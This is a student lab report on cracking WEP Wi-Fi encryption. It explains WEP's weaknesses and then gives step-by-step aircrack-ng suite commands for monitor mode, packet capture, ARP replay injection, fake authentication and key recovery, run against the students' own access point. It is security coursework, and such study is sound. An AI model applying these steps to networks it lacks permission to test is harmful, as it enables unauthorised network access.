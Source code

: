 ![logo uit](image\uit-logo.png)

# Wireless Security

## Project : Cracking WEP 

Lecturer: Lê Kim Hùng

Student 1: **17520771** – Lê Thị Huyền My

Student 2: **17521104** – Lê Thị Huyền Thư

Class: NT330.K21.**ANTN**

## [I.Introduce](#I.%20Introduce)

1. ### [Wired Equivalent Privacy](#1.%20Wired%20Equivalent%20Privacy%20(WEP))

2. ### [WEP Issues](#2.%20WEP%20Issues)

## [II.Hardware](#II.%20Hardware)

## [III.Cracking WEP](#III.%20Cracking%20WEP)

1. ### [Aircrack-ng](#1.%20Aircrack-ng)

    - [Step 1: Set up wifi modem (low password)](#Step%201:%20Set%20up%20wifi%20modem%20(low%20password))

    - [Step 2: Run monitor mode](#Step%202:%20Run%20monitor%20mode)

    - [Step 3: Capture wireless packet](#Step%203:%20Capture%20wireless%20packet)

    - [Step 4: Cracking WEP](#Step%204:%20Cracking%20WEP)

    - [Step 5: Set up wifi modem (advance password)](#Step%205:%20Set%20up%20wifi%20modem%20(advance%20password))

# I. Introduce

## 1. Wired Equivalent Privacy (WEP)

- WEP is an IEEE 802.11 wireless protocol which provides security algorithms for data confidentiality during wireless transmissions
- WEP uses 24-bit initalization vector (IV) to form stream cipher RC4 for confidentiality and the CRC-32 checksum for intergrity of wireless transmission.

## 2. WEP Issues

- The IV is a 24-bit field is too small and is sent in the cleartext portion of a message
- Identical key streams are produced with the reuse of the same IP for data protection, as the IV is short key streams are repeated within short time
- Lack of centralized key management makes it difficult to change the WEP keys with any regularity
- When there is IV collision, it becomes possible to reconstruct the RC4 keystream based in the IV and the decrypted payload of the packet
- IV is a part of the RC4 encryption key, leads to a analytical attack that recovers the key after intercepting and analyzing a relatively small amount of traffic
- Use of RC4 was designed to be a one-time cipher and not intended for multiples message use
- No defined method for encryption key distribution
- Wirless adapters from the same vendor may all generate the same IV sequence. This enables attackers to determine the key stream and decrypt the ciphertext
- Associate and disassociate messages are not authenticated
- WEP does not provide cryptographic integrity protection. By capturing two packets an attacker can flip a bit in the encrypted stream and modify the checksum so that the paket is accepted
- WEP is based on a password, prone to password cracking attacks
- An attacker can construct a decryption table of the reconstructed key stream and can use it to decrypt the WEP packets in real-time

# II. Hardware

- OS: Kali Linux 2020.1b amb64 in VMware Workstation 15
- AP: Tp-link TL-WN722N (installed drive Rtl8188eus)
- Core: 4 core
- RAM: 2GB
- SCSI: 80GB

# III. Cracking WEP

## 1. Aircrack-ng

### Step 1: Set up wifi modem (low password)

SSID: LETHIHUYEN \*; 128-bit key; low password: 1234567890123

![set up AP with low password](image\set-up-AP-low-pass.png)

### Step 2: Run monitor mode

> #airmon-ng start wlan0

Use the *iwconfig* command to check

![start mode monitor](image\start-mode-monitor.png)

### Step 3: Capture wireless packet

> #airodump-ng wlan0

Airodump-ng provides basic information cables such as: BSSID, beacons, data, channel, maximu speed, encryption algorithm, cipher detected, authentication protocol, ESSID

![ariodump-ng collect base information](image\airodump-ng-collect-information.png)

We need lock the wireless card on the same channel as the AP with the following command: # iwconfig wlan0mon channel 1

The basic injection test provides additional valuable information as well

> #aireplay-ng -9 -e LETHIHUYEN\* -a 72:F4:C2:D1:75:08 wlan0
>> -9 means injection test
>> -e LETHIHUYEN\* teddy is the network name (SSID)
>> -a 72:F4:C2:D1:75:08 is MAC address of the access point (BSSID)
>> -wlan0 is the interface name

![injection test](image\injection-test.png)

Capture wireless packet:

> #airodump-ng –bssid 72:F4:C2:D1:75:08 -c 1 -w WEPcrack wlan0
>> --bssid is MAC address of the access point
>> -c 1 is AP channel
>> -w WEPcrack: export to WEP crack file

![capture packet](image\capture-file-wepcrack.png)

Generate traffic:

> #aireplay-ng -3 -b 72:F4:C2:D1:75:08 -h E0:62:67:49:0D:74 wlan0
>> -3 means standard arp request replay
>> -b 72:F4:C2:D1:75:08 is the access point MAC address
>> -h E0:62:67:49:0D:74 is the source MAC address

![generate traffic](image\generate-traffic-1.png)

> #aireplay-ng -1 0 -e LETHIHUYEN\* -a 72:F4:C2:D1:75:08 -h E0:62:67:49:0D:7A wlan0
>> -1 means fake authentication
>> 0 reassociation timing in seconds

![generate traffic](image\generate-traffic-2.png)

### Step 4: Cracking WEP

Use the command #aircrack-ng WEPcrack-01.cap to analyze IVs in the file WEPcrack-01.cap. Aircrack-ng can recover the WEP key once enough encrypted packets have been captured.

> Password: 1234567890123

![find low password in WEPcrack](image\find-low-pass.png)

### Step 5: Set up wifi modem (advance password)

Password: LTH\*=.=@uit10

![set up AP with advance passwork](image\set-up-AP-advance-pass.png)

The number of IVs collected is not enough for analysis, there will be a failure message showing the number of IVs needed.

![fail to find password](image\fail-to-get-pass.png)

We got the password

![find advance password](image\find-advance-pass.png)
